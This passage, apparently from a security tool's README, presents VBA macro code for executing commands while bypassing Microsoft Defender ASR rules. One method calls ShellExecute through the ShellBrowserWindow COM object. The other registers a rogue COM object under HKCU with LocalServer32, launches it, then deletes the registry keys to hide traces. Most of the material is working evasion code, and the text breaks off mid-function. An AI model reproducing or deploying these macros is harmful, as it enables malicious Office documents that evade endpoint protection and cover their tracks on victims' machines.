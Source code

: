 #### `ShellBrowserWindowExec` (Using `ShellBrowserWindow` CLSID)

- **Uses** `GetObject("new:c08afd90-f2a1-11d1-8455-00a0c91f3880")`  
  → This CLSID corresponds to `ShellBrowserWindow`, which **controls individual Explorer windows**.
- Executes a command through `.Document.Application.ShellExecute`.
- **Same ASR bypass as** `ShellWindowsExec`.

```
Sub ShellBrowserWindowExec(targetPath As String)
    Dim targetArguments As Variant
    Dim targetFile As String
    Dim shellBrowserWindow As Object
    ' Extract filename and arguments
    targetFile = Split(targetPath, " ")(0)
    targetArguments = GetArguments(targetPath)
    ' Get ShellBrowserWindow object
    Set shellBrowserWindow = GetObject("new:c08afd90-f2a1-11d1-8455-00a0c91f3880")
    ' Execute command
    shellBrowserWindow.Document.Application.ShellExecute targetFile, targetArguments, "", "open", 1
End Sub
```

* * *

#### Custom COM object (Registry Hijacking)

Since we have access to the registry, we can simply just create a new rogue COM object with LocalServer32 set and call it.

This technique **creates a rogue COM object in the Windows Registry** with a specified `LocalServer32` value that points to an executable or script. When the COM object is invoked using `GetObject()`, the target application **executes stealthily**.

#### How It Works

1 **Registers a Fake COM Object**

- Creates **a new CLSID** (`C7B167EA-DB3E-4659-BBDC-D1CCC00EFE9C`) in the registry under:
- `HKEY_CURRENT_USER\Software\Classes\CLSID\{CLSID}`
- Sets the `LocalServer32` value to **point to the target executable**.

2\. **Executes the Registered COM Object**

- Calls `GetObject("new:{CLSID}")`, which triggers execution.

3\. **Deletes the Registry Keys**

- **Removes traces of execution** after the payload is launched.

```
Sub ComObjectExec(targetPath As String)
    Dim wsh As Object
    Dim regKeyClass As String, regKeyLocalServer As String
    Dim clsid As String
    ' Create a WScript Shell object
    Set wsh = CreateObject("WScript.Shell")
    ' Define CLSID (Fake COM Object)
    clsid = "{C7B167EA-DB3E-4659-BBDC-D1CCC00EFE9C}"
    
    ' Define Registry Paths
    regKeyClass = "HKEY_CURRENT_USER\Software\Classes\CLSID\" & clsid & "\"
    regKeyLocalServer = "HKEY_CURRENT_USER\Software\Classes\CLSID\" & clsid & "\LocalServer32\"
    ' Create Registry Keys
    wsh.RegWrite regKeyClass, "FakeCOMObject", "REG_SZ"
    wsh.RegWrite regKeyLocalServer, targetPath, "REG_EXPAND_SZ"
    ' Execute via COM Object
    GetObject("new:" & clsid)
    ' Remove Registry Keys (Cleanup)
```